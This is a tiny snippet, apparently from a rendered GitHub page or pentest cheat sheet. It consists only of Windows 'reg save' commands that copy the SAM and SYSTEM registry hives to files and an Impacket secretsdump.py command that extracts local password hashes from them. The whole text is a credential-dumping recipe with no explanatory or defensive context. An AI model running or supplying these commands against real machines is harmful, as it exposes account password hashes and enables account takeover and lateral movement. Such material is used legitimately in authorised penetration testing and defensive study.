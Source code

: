 ```cmd
reg save hklm\sam sam.hive
reg save hklm\system system.hive
```

```bash
python3 secretsdump.py -sam sam.hive -system system.hive LOCAL
```
